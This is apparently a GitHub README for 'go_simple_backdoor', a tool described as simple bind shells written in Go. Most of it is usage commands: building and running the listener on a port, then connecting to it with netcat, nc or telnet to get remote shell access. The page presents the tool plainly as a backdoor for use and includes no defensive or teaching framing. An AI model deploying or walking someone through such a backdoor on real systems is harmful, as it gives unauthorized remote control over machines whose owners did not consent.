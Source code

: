 # go_simple_backdoor
Simple bind shells written in Go

## Server
```bash
go build main.go
chmod +x ./main
./main <PORT_NUMBER>
```

## Client

- Using **Netcat**:
```bash
netcat <IP_SERVER> <PORT_NUMBER>
or
nc <IP_SERVER> <PORT_NUMBER>
```

- Using **Telnet**:
```bash
telnet <IP_SERVER> <PORT_NUMBER>
```
